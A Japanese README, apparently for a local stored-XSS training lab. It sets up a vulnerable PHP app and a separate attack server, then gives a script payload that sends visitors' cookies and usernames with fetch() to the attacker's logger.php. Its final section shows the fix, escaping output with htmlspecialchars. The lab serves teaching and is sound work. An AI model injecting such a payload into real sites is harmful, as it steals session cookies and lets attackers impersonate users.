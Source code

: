 # XSS

# Environment

Debian 11

# Get Started

1つのターミナル上で対象サーバーを建てる

```bash
bash init.sh
php -S localhost:3000 -t main
```

別のターミナル上で攻撃用サーバーを建てる

```bash
php -S localhost:3001 -t attack
```


# Exploit

1. user01でログイン

ブラウザでlocalhost:3000/login.phpにアクセスする

user01としてログインする (`user01` / `user01`)

2. コードを挿入

次のようなコードを投稿する

```javascript
Hello
<script>
var url = 'http://localhost:3001/logger.php';
var user = encodeURIComponent(document.querySelector('#username').innerText);
var cookie = encodeURIComponent(document.cookie);
fetch(`${url}?user=${user}&cookie=${cookie}`, { mode: "no-cors" })
</script>
```

3. 疎通確認
localhost:3000/index.php に再度アクセスすると localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

4. user02でログインする (`user02` / `user02`)

5. ログ確認
localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

cookieが手に入ったのでuser01になりすましてログインできる

# Fix

出力時に適切にエスケープする

修正前)

```php
<?php
<p><?= $post['message'] ?> - by `<?= $username ?>`</p>
```

修正後)

```php
<?php
<p><?= htmlspecialchars($post['message']) ?> - by `<?= htmlspecialchars($username) ?>`</p>
```

